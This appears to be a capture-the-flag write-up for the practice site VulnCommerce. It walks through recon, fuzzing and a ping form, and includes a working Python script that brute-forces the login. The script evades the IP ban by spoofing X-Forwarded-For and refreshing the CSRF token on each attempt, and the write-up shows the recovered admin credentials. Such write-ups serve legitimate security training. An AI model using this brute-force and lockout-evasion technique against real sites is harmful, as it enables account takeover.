






# VulnCommerce

http://www.vulncommerce.co.uk - 8 flags to find


So browsed through the pages click all buttons and just observed the traffic. I noticed the images had requests like this

```
GET /upload_dir_34f9gGo/laptop2.png HTTP/1.1
Host: www.vulncommerce.co.uk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://www.vulncommerce.co.uk/?session_id=YmU3MjlkNmVkZmViM2Y0ZWY1YzI4OWQxOWY1ZWE0MDhiM2VkYzZhZTRjYzhjNmY1NmQ3MjYyODI3Yzg2NTA4ZTcyY2NkMjRiMTcyMmExNTQ3ZDY2M2Y4NmI3NmJmMzE3ODVlMzVkMjBhNzFkYzUxM2ZjMmRmYWUxOGI1ZTc3YzM=
Cookie: ctfchallenge=xxx; session_id=YmU3MjlkNmVkZmViM2Y0ZWY1YzI4OWQxOWY1ZWE0MDhiM2VkYzZhZTRjYzhjNmY1NmQ3MjYyODI3Yzg2NTA4ZTcyY2NkMjRiMTcyMmExNTQ3ZDY2M2Y4NmI3NmJmMzE3ODVlMzVkMjBhNzFkYzUxM2ZjMmRmYWUxOGI1ZTc3YzM%3D
Cache-Control: max-age=0
```

So I have a look at this directory and I can get a directory listing



Have a look in the tech directory and there's an updates.txt file with the following in it

```
[^FLAG^xxx^FLAG^]

### UPDATES ###

1) Server migration is now complete, Clients requests first go to the load balancer and will then be forwarded to an available server. We currently only have one server but will add some more soon.

2) We've setup a test page at "/email-signup-trial" to accept emails for newsletters. Please give it a try and let us know if you have problems.
```

Flag no. 3 found

OK good start, lets try doing some subdomain enumeration and then look at the content on the main app and then back again to subdomains if I find anything :)

So yes I find something with assetfinder :). Nothing with the subdomain word list though. OK save these for later

```
└─$ assetfinder -subs-only vulncommerce.co.uk
vulncommerce.co.uk
hq.vulncommerce.co.uk
web-version-manager.vulncommerce.co.uk
vulncommerce.co.uk
vulncommerce.co.uk
```

Quick review of the pages we know about on the main app and their actions.

OK so Product pages for example ```http://www.vulncommerce.co.uk/product/1```



Adding a product to the basket makes a request like

```
POST /product/1?session_id=YmU3MjlkNmVkZmViM2Y0ZWY1YzI4OWQxOWY1ZWE0MDhiM2VkYzZhZTRjYzhjNmY1NmQ3MjYyODI3Yzg2NTA4ZTcyY2NkMjRiMTcyMmExNTQ3ZDY2M2Y4NmI3NmJmMzE3ODVlMzVkMjBhNzFkYzUxM2ZjMmRmYWUxOGI1ZTc3YzM= HTTP/1.1
Host: www.vulncommerce.co.uk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 12
Origin: http://www.vulncommerce.co.uk
Connection: close
Referer: http://www.vulncommerce.co.uk/product/1?session_id=YmU3MjlkNmVkZmViM2Y0ZWY1YzI4OWQxOWY1ZWE0MDhiM2VkYzZhZTRjYzhjNmY1NmQ3MjYyODI3Yzg2NTA4ZTcyY2NkMjRiMTcyMmExNTQ3ZDY2M2Y4NmI3NmJmMzE3ODVlMzVkMjBhNzFkYzUxM2ZjMmRmYWUxOGI1ZTc3YzM=
Cookie: session_id=YmU3MjlkNmVkZmViM2Y0ZWY1YzI4OWQxOWY1ZWE0MDhiM2VkYzZhZTRjYzhjNmY1NmQ3MjYyODI3Yzg2NTA4ZTcyY2NkMjRiMTcyMmExNTQ3ZDY2M2Y4NmI3NmJmMzE3ODVlMzVkMjBhNzFkYzUxM2ZjMmRmYWUxOGI1ZTc3YzM%3D; ctfchallenge=xxx; session_id=YmU3MjlkNmVkZmViM2Y0ZWY1YzI4OWQxOWY1ZWE0MDhiM2VkYzZhZTRjYzhjNmY1NmQ3MjYyODI3Yzg2NTA4ZTcyY2NkMjRiMTcyMmExNTQ3ZDY2M2Y4NmI3NmJmMzE3ODVlMzVkMjBhNzFkYzUxM2ZjMmRmYWUxOGI1ZTc3YzM%3D
Upgrade-Insecure-Requests: 1

product_id=1
```

The basket ```http://www.vulncommerce.co.uk/basket```



A request to pay fails, and doesn't actually contain of the address/payment details

```
POST /basket?session_id=YmU3MjlkNmVkZmViM2Y0ZWY1YzI4OWQxOWY1ZWE0MDhiM2VkYzZhZTRjYzhjNmY1NmQ3MjYyODI3Yzg2NTA4ZTcyY2NkMjRiMTcyMmExNTQ3ZDY2M2Y4NmI3NmJmMzE3ODVlMzVkMjBhNzFkYzUxM2ZjMmRmYWUxOGI1ZTc3YzM= HTTP/1.1
Host: www.vulncommerce.co.uk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Origin: http://www.vulncommerce.co.uk
Connection: close
Referer: http://www.vulncommerce.co.uk/basket?session_id=YmU3MjlkNmVkZmViM2Y0ZWY1YzI4OWQxOWY1ZWE0MDhiM2VkYzZhZTRjYzhjNmY1NmQ3MjYyODI3Yzg2NTA4ZTcyY2NkMjRiMTcyMmExNTQ3ZDY2M2Y4NmI3NmJmMzE3ODVlMzVkMjBhNzFkYzUxM2ZjMmRmYWUxOGI1ZTc3YzM=
Cookie: ctfchallenge=xxx; session_id=YmU3MjlkNmVkZmViM2Y0ZWY1YzI4OWQxOWY1ZWE0MDhiM2VkYzZhZTRjYzhjNmY1NmQ3MjYyODI3Yzg2NTA4ZTcyY2NkMjRiMTcyMmExNTQ3ZDY2M2Y4NmI3NmJmMzE3ODVlMzVkMjBhNzFkYzUxM2ZjMmRmYWUxOGI1ZTc3YzM%3D
Upgrade-Insecure-Requests: 1

action=pay
```

Changing the value of action from pay to anything else doesn't seem to matter, changed to both xxx and blank an receive the same message

```
Error processing payment details, please try again later
```

Removing an item from the basket uses the following request format

```
POST /basket?session_id=YmU3MjlkNmVkZmViM2Y0ZWY1YzI4OWQxOWY1ZWE0MDhiM2VkYzZhZTRjYzhjNmY1NmQ3MjYyODI3Yzg2NTA4ZTcyY2NkMjRiMTcyMmExNTQ3ZDY2M2Y4NmI3NmJmMzE3ODVlMzVkMjBhNzFkYzUxM2ZjMmRmYWUxOGI1ZTc3YzM= HTTP/1.1
Host: www.vulncommerce.co.uk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 14
Origin: http://www.vulncommerce.co.uk
Connection: close
Referer: http://www.vulncommerce.co.uk/basket?session_id=YmU3MjlkNmVkZmViM2Y0ZWY1YzI4OWQxOWY1ZWE0MDhiM2VkYzZhZTRjYzhjNmY1NmQ3MjYyODI3Yzg2NTA4ZTcyY2NkMjRiMTcyMmExNTQ3ZDY2M2Y4NmI3NmJmMzE3ODVlMzVkMjBhNzFkYzUxM2ZjMmRmYWUxOGI1ZTc3YzM=
Cookie: ctfchallenge=xxx; session_id=YmU3MjlkNmVkZmViM2Y0ZWY1YzI4OWQxOWY1ZWE0MDhiM2VkYzZhZTRjYzhjNmY1NmQ3MjYyODI3Yzg2NTA4ZTcyY2NkMjRiMTcyMmExNTQ3ZDY2M2Y4NmI3NmJmMzE3ODVlMzVkMjBhNzFkYzUxM2ZjMmRmYWUxOGI1ZTc3YzM%3D
Upgrade-Insecure-Requests: 1

basket_id=9703
```

The basket id just seems to increment each time an item is added to the basket

And login, which tells me when a username is not known



```
POST /login?session_id=YzhiMjM2ZTBjMTMyNGFiOTZhYzExYTBjYjI3MDAxYzAxNGNiZjgxMmU1YzM0ZGY1ZWRkNDA1NDVmOTIyNDM0YjYyMGVlZmYxYTBkM2NlNWY2MjQzYTI5Mjg4ZDI4Y2I4NzBlMzhhYTU0ZTE5MDU5NTE0MWQ0NDIwMDljM2VjNTI= HTTP/1.1
Host: www.vulncommerce.co.uk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 217
Origin: http://www.vulncommerce.co.uk
Connection: close
Referer: http://www.vulncommerce.co.uk/login?session_id=YzhiMjM2ZTBjMTMyNGFiOTZhYzExYTBjYjI3MDAxYzAxNGNiZjgxMmU1YzM0ZGY1ZWRkNDA1NDVmOTIyNDM0YjYyMGVlZmYxYTBkM2NlNWY2MjQzYTI5Mjg4ZDI4Y2I4NzBlMzhhYTU0ZTE5MDU5NTE0MWQ0NDIwMDljM2VjNTI=
Cookie: ctfchallenge=xxx; session_id=YzhiMjM2ZTBjMTMyNGFiOTZhYzExYTBjYjI3MDAxYzAxNGNiZjgxMmU1YzM0ZGY1ZWRkNDA1NDVmOTIyNDM0YjYyMGVlZmYxYTBkM2NlNWY2MjQzYTI5Mjg4ZDI4Y2I4NzBlMzhhYTU0ZTE5MDU5NTE0MWQ0NDIwMDljM2VjNTI%3D
Upgrade-Insecure-Requests: 1

csrf=ZTE5MTliNTgyM2QxODVkYTU2MzJhNTFiZjYwMTJkZmNiNTM4ZjgzNDM5MGUwZTYyN2ZkOTljOTlhMzRhMjIxOTE4OWZhNzYwOTc1MzNjYzQ3YzJkOWJhOGQ3OTM2MGFlNGNjNjgwZGU5YjI2OWFlMTNkNzIwYTQ5NzM3N2E2NjQ%3D&login_username=aaa&login_password=aaa
```

So it has a CSRF token in the request. And if I make 3 incorrect login attempts I get the message

```
Your IP is banned from attempting to login for another 3600 seconds
```

If however I add the `X-Forwarded-For` header with a new IP I can make another request, the CSRF token refreshes with each refresh of the page.

Doing a quick FUZZ for content on `http://www.vulncommerce.co.uk/FUZZ` gives me a couple of things back which I've not seen yet

- profile - 302 redirect to login so I need to hack the above login to enumerate user and then find the password
- stats - 200 response with the below page



OK there's flag no. 2 :)

The network test seems to be a ping against the Goggle DNS 8.8.8.8

```
POST /stats HTTP/1.1
Host: www.vulncommerce.co.uk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 19
Origin: http://www.vulncommerce.co.uk
Connection: close
Referer: http://www.vulncommerce.co.uk/stats?session_id=YzhiMjM2ZTBjMTMyNGFiOTZhYzExYTBjYjI3MDAxYzAxNGNiZjgxMmU1YzM0ZGY1ZWRkNDA1NDVmOTIyNDM0YjYyMGVlZmYxYTBkM2NlNWY2MjQzYTI5Mjg4ZDI4Y2I4NzBlMzhhYTU0ZTE5MDU5NTE0MWQ0NDIwMDljM2VjNTI=
Cookie: ctfchallenge=xxx; session_id=YmU3MjlkNmVkZmViM2Y0ZWY1YzI4OWQxOWY1ZWE0MDhiM2VkYzZhZTRjYzhjNmY1NmQ3MjYyODI3Yzg2NTA4ZTcyY2NkMjRiMTcyMmExNTQ3ZDY2M2Y4NmI3NmJmMzE3ODVlMzVkMjBhNzFkYzUxM2ZjMmRmYWUxOGI1ZTc3YzM%3D
Upgrade-Insecure-Requests: 1

ping_target=8.8.8.8
```

The page changes to include the message below after clicking the send test button

```
Target: 8.8.8.8
Result: PASS
```

Some potential use for later maybe? For example the other Google DNS 8.8.4.4 works as does 127.0.0.1, perhaps I might be able to use it....

OK let's try and focus on the login, I'm going to script this in python rather than using Burp.

Bit of playing and this script worked well for me in the end

```python
import requests
import random
from bs4 import BeautifulSoup

siteurl = "http://www.vulncommerce.co.uk/login?session_id=xxx"
ctfchallenge_cookie = {'ctfchallenge': 'xxx'}
burp_proxy = {'http': 'http://127.0.0.1:8080'}
usernames = '/usr/share/wordlists/ctfchallenge/usernames.txt'
passwords = '/usr/share/wordlists/ctfchallenge/passwords-large.txt'

def getCSRFToken():
    r = requests.get(siteurl, cookies=ctfchallenge_cookie, proxies=burp_proxy, headers= {'X-Forwarded-For': generateRandomIP()})
    html = BeautifulSoup(r.text, 'html.parser')
    return html.find('input', {'name':'csrf'}).attrs['value']

def findUsername():
    with open(usernames, 'r') as users:
        formData = {'login_username' : '{}', 'login_password': 'aaa'}
        return login(users, formData, "Username not recognised")

def findPassword(username):
    with open(passwords, 'r') as pwords:
        formData = {'login_username': username, 'login_password': '{}'}
        return login(pwords, formData, "Password incorrect for username")

def login(wordList, formData, failureText):
    for word in wordList:
        word = word.rstrip()
        formData['csrf'] = getCSRFToken()
        prevUser = formData['login_username']
        prevPassword = formData['login_password']
        formData['login_username'] = formData['login_username'].format(word)
        formData['login_password'] = formData['login_password'].format(word)
        r = requests.post(siteurl, cookies=ctfchallenge_cookie, data=formData, proxies= {'http': 'http://127.0.0.1:8080'}, headers= {'X-Forwarded-For': generateRandomIP()})
        if failureText not in r.text:
            return word
        formData['login_username'] = prevUser
        formData['login_password'] = prevPassword

def generateRandomIP():
    return f"94.{random.randint(0,255)}.{random.randint(0,255)}.{random.randint(0,255)}"


username = findUsername()
password = findPassword(username)
print(f"Username is {username}")
print(f"Password is {password}")
```

When it finished I had the following printed out

```
Username is admin
Password is htubcnhfwbz
```

And I can now login and see admins profile



Looks like I skipped a few steps though as this is flag no. 8 :D